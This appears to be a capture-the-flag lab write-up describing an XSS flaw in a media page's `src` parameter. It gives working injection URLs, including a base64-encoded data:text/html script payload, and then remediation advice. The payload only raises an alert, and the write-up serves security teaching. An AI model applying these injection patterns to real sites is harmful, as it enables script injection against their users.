 # Breach: XSS advanced


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the media page (by clicking on the NSA logo) (`/?page=media&src=nsa`).

> When you try to edit the `src` parameter, you will notice that the src is rendered in a viewer.<br>
> You can use :
> * keywords (like `nsa`),<br>
> * relative urls (like `images/win.png`),<br>
> * plain data (like `data:text/html,<h1>Where is the flag?<h1>`),<br>
> We see that the src parameter is vulnerable to XSS.


#### Step 2:

Let's try to inject a script in the `src` parameter !

> First, let's try to inject a simple alert script.<br>
> ```url
> /?page=media&src=data:text/html,<script>alert('gimme the flag');</script>
> ```
> 
> It works !<br>
> But there is no flag for some reason.<br>
> Let's try to do the same thing, but with a base64 encoded script.

- Encode the following script in base64:
```html
<script>alert('gimme the flag');</script>
```

- It gives us:
```base64
PHNjcmlwdD5hbGVydCgnZ2ltbWUgdGhlIGZsYWcnKTs8L3NjcmlwdD4=
```


#### Step 3:

- Inject the base64 encoded script in the `src` parameter:
```url
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnZ2ltbWUgdGhlIGZsYWcnKTs8L3NjcmlwdD4=
```


<br>


## How to fix it:

> The values of the parameters in an HTTP request are made by the user.

##### RULE N°1 IN SECURITY: NEVER TRUST THE USER !

- Do more checks BEFORE trying to render or execute anything coming from the user.
  - Disallow the plain data (`data:__mime-type__;__encoding__,__data__`).
  - Or at least check for the mime-type (allow only `image/*` for example).


---

[[Back to main page](/#darkly)]
